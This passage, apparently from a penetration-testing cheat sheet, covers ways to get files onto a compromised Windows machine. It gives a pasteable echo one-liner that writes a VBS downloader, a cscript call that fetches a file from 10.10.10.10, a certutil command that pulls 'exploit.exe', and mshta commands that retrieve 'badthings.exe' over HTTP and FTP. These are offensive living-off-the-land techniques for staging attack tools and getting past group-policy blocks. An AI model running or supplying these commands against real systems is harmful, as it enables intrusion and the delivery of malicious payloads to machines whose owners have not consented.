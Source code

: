 If you see the following messages, you should move on to PowerShell:

```
C:\temp>cscript testvb.vbs
This program is blocked by group policy. For more information, contact your system administrator.
C:\temp>testvb.vbs
Access is denied.
```

Now we can create a very simple downloader script by copying and pasting this single line of code into your windows commandline. I have tried to create a VBS script to download files from a remote webserver with the least possible number of lines of VBS code and I believe this is it.
If Windows is an older version of windows (Windows 8 or Server 2012 and below) use the following script:

```
CMD C:\> echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs & echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs & echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
```

If Windows is a newer version (Windows 10 or Server 2016), try the following code:

```
CMD C:\> echo dim xHttp: Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.6.0")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs &echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs &echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
```

Now try to download a file to the local path:

```
CMD C:\> cscript dl.vbs "http://10.10.10.10/archive.zip" ".\archive.zip"
```

### Uploading Files with CertUtil.exe
I've found that CertUtil can be quite reliable when all else seems to fail.

```
certutil.exe -urlcache -split -f http://10.10.10.10/exploit.exe
```

### Transfering Files using MSHTA
Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). And it can also be used to transfer files :D  
HTML:

```
C:\>mshta http://10.10.10.10/badthings.exe
```

FTP:

```
C:\>mshta ftp://10.10.10.10:21/badthings.exe
```
